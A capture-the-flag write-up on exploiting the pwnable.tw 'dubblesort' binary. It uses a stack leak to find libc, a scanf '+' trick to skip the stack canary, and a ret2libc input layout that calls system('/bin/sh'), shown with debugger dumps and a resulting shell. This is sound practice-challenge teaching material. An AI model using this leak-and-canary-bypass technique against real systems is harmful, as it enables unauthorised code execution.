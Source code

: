 # Dubblesort
Okay this was by far the most frustrating challenge yet. So many issues that took way too long to fix. Nevertheless, it's solved and here's how it's done.

Start out by checking the security on the binary:
```
pwn checksec ./dubblesort
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```

Yikes. Alright looks like there's gonna be a very specific bug here. Lets test out the program to see what happens:

```
What your name :a
Hello a
��,How many numbers do you what to sort :2
Enter the 0 number : 1
Enter the 1 number : 2
Processing......
Result :
1 2
```

Hmmm. Looks like there's some weird stuff going on when it asks for your name. After a look in GDB, looks like it's just printing out whatever is on the stack. There's some random values there to look at:

```
pwndbg> x/20x 0xffffda3c <- Location of name on the stack
0xffffda3c:     0x000040d7      0xffffdc69      0x0000002f      0x0000009e
0xffffda4c:     0x00000016      0x00008000      0xf7fcf000      0xf7fcd244
```

Woah that 7th value is interesting... After a check in vmmap I can see it's the GOT of libc. This means if we leak this, there is a chance of a ret2libc attack. Alright lets try it to see what we get. I need to input 25 "A"s and I should be able to leak that value. The reason it has to be 25 and not 24 is because the printf call will stop the print at the null value in the address (e.g `0xf7fcf000`) the first character `\x00` will stop the printf before it prints the rest of the address. So we can overwrite that last value and it should print the whole thing like this: `0xf7fcf041` in this case: `0x41` is the hex value of "A" which will be printed to the screen along with the rest of the address. After this leak, we now can calculate the base of libc.

Okay have a libc leak. How can we utilize this to our advantage. My first though was hey maybe if I buffer overflow the part where it asks me for the number I'd like to sort maybe I can overwrite the return address on the stack. Welp:

```
What your name :A
Hello A
��,How many numbers do you what to sort :1
Enter the 0 number : 111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111
Processing......
Result :
4294967295
```

Okay looks like it converts my number directly into a %u unsigned integer

```
 0x56555a95 <main+210>    call   __isoc99_scanf@plt
        format: 0x56555bfa ◂— 0x45007525 /* '%u' */
        vararg: 0xffffda4c —▸ 0xf7ffc7e0
```

Yep.

Okay what if we figure out a way to exploit the sorting function. Maybe there's some weird stuff with the sorting function that would cause some funkiness in the program. Lets try it:

```
What your name :a
Hello a
��,How many numbers do you what to sort :25
Enter the 0 number : 1
Enter the 1 number : 1
Enter the 2 number : 1
Enter the 3 number : 1
Enter the 4 number : 1
Enter the 5 number : 1
Enter the 6 number : 1
Enter the 7 number : 1
Enter the 8 number : 1
Enter the 9 number : 1
Enter the 10 number : 1
Enter the 11 number : 1
Enter the 12 number : 1
Enter the 13 number : 1
Enter the 14 number : 1
Enter the 15 number : 1
Enter the 16 number : 1
Enter the 17 number : 1
Enter the 18 number : 1
Enter the 19 number : 1
Enter the 20 number : 1
Enter the 21 number : 1
Enter the 22 number : 1
Enter the 23 number : 1
Enter the 24 number : 1
Processing......
1Result :
1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 *** stack smashing detected ***: terminated
```

OOOH we got a stack smash. HUH??? What's going on. I took a look at our input in GDB to see what I could make of it:
Before input:

```
pwndbg> x/30x 0xffffda4c
0xffffda4c:     0xf7ffc7e0      0x00000000      0x00000000      0x00005034
0xffffda5c:     0x5998aa00      0x029c6fbf      0x00000534      0x0000009e
0xffffda6c:     0xf7fb0a61      0x00000000      0xf7fba000      0xf7ffc7e0
0xffffda7c:     0xf7fbdc68      0xf7fba000      0xf7fe22f0      0x00000000
0xffffda8c:     0x56555601      0x565557a9      0x56556fa0      0x00000001
0xffffda9c:     0x56555b72      0x00000001      0xffffdb64      0xffffdb6c
0xffffdaac:     0x5998aa00 <- Stack Canary
```
After input:
```
0xffffda4c:     0x00000001      0x00000001      0x00000001      0x00000001
0xffffda5c:     0x00000001      0x00000001      0x00000001      0x00000001
0xffffda6c:     0x00000001      0x00000001      0x00000001      0x00000001
0xffffda7c:     0x00000001      0x00000001      0x00000001      0x00000001
0xffffda8c:     0x00000001      0x00000001      0x00000001      0x00000001
0xffffda9c:     0x00000001      0x00000001      0x00000001      0x00000001
0xffffdaac:     0x00000001 <- Was stack canary
```

Okay we overwrote the stack canary. That sucks, but that means if we can do that, we can overwrite the return address. The only problem is the stack canary will always be in the way. If only there was a way to skip over the canary... Well if I try to enter a letter "L" into the input at any point. It crashes the scanf function and it doesn't read anything else. This was the method I started with, but soon found out a much better solution. If you enter the "+" symbol instead of the number, it won't crash the scanf function, but it also won't overwrite whatever is in memory at that spot. So If I do this at the stack canary it will prevent it from being overwritten. There's one more obstacle in this: Whatever I enter needs to be in ascending order. This is a sorting function right?

Alright so looks like I have all the information I need now to complete the exploit. I start out with a leak in libc. Then I enter an ascending stack with a "+" at the 25th spot and then All the values afterward need to be larger than the stack canary. This would allow me to overwrite the return address and change the control flow of the program. The inputs would look a little like this:

```
"1" * 24
"+" 
"<addr_system>" * 9 <-- 9th value overwrites return addr
"<addr_binsh>"
```

Since I have the address of libc, I can calculate all the offsets to get the address of system and the string "/bin/sh". When the program returns it will call `system("/bin/sh")` And there's our shell. 

```
[b'Hello', b'AAAAAAAAAAAAAAAAAAAAAAAAAPm\xf7D2m\xf7\x01\xf6YV\xa9\xf7YV\xa0\x0fZV\x01', b'How', b'many', b'numbers', b'do', b'you', b'what', b'to', b'sort', b':']
./e.py:34: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline(str(length))
./e.py:48: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline(str(system))
./e.py:52: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline(str(binsh))
Processing......
Result :
4 4 4 4 4 4 4 4 4 4 4 4 4 4 4 4 4 4 4 4 4 4 4 4 2294056704 4149606720 4149606720 4149606720 4149606720 4149606720 4149606720 4149606720 4149606720 4149606720 4150779531 $ ls
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

For more details on the actual exploit script take a look at `e.py` in the repo.

### Issues
I thought I'd add an issues section for this challenge because I didn't necessarily have much trouble with the exploit, but I had a lot of problems with the setup of the program. 

This is the first program on pwnable.tw that I've done that offers a download of the libc that is supposed to be used in the program. What they didn't include was a copy of the ld.so for the program. This means that the program will run on your personal libc and the exploit will not actually be the same as the remote one. 

The way to get around this is to patch the elf to use the libc that they give you. I found a super nice tool called [pwninit](https://github.com/io12/pwninit) That you can use to patch the ELF automatically. It's like magic. Just hop into the directory with the libc and the binary you want to patch and run `pwninit` and it will find the necessary files and patch the ELF. This was essential to solving the problem. Without this, I would not have been able to run the binary in gdb and find the proper offsets.

